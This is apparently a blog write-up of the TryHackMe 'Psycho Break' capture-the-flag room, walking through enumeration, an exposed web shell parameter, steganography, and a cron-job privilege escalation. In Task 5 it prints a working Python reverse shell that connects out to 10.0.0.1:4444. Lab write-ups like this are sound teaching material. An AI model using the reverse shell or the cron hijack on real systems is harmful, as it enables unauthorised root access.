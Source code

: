 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1

![nmap](/assets/img/tryhackme/psychobreak/3.png)
A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.


## Task 2

![http_service](/assets/img/tryhackme/psychobreak/4.png)
In the source page we can find the room name. Let’s go into the room.

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text

![decode](/assets/img/tryhackme/psychobreak/8.png)
After decoding, enter the decoded text to get access to map. Let’s move on to the next room…

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
In the source code of the page we can find a hint.

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.

<pre>gobuster dir -u http://ip-address/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 </pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
After clicking on the link we are redirected to another page.

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

```http://ip-address/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls .. ```

![dir_list](21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## Task 3

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## Task 5

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
</pre>

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
